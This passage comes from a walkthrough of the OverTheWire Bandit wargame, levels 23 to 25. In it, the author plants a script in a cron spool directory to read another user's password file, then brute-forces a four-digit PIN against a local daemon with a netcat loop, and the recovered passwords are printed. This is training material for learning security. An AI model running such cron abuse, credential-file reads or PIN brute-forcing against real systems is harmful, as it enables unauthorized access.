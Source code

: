 ```console
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/etc/cron.d$ cd /var/spool/bandit24/foo
bandit23@bandit:/var/spool/bandit24/foo$ touch passwordscript.sh
bandit23@bandit:/var/spool/bandit24/foo$ echo "cat /etc/bandit_pass/bandit24 > /tmp/passwordtest.txt" > passwordscript.sh
bandit23@bandit:/var/spool/bandit24/foo$ chmod 777 passwordscript.sh
bandit23@bandit:/var/spool/bandit24/foo$ ls passwordscript.sh
passwordscript.sh
bandit23@bandit:/var/spool/bandit24/foo$ cat /tmp/passwordtest.txt
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

## <center>Level 24 &#8594; 25</center>
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```console
bandit24@bandit:~$ netcat localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
```
Now we are going to create a script that will brute-force the password
```console
bandit24@bandit:~$ touch /tmp/mypassword.sh
bandit24@bandit:~$ cd /tmp
bandit24@bandit:/tmp$ nano mypassword.sh
```
To brute-force the four-digit pincode, we will write this loop inside nano:
```console
#!/bin/bash

for i in {0000..9999}
do
    echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"
done | nc localhost 30002
```
Now we need to make sure the script has the correct permissions and then run it:
```console
bandit24@bandit:/tmp$ chmod +x mypassword.sh
bandit24@bandit:/tmp$ ./mypassword.sh
```
After many messages saying `"Wrong! Please enter the correct current password and pincode. Try again."`, we finally get this message:
```console
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
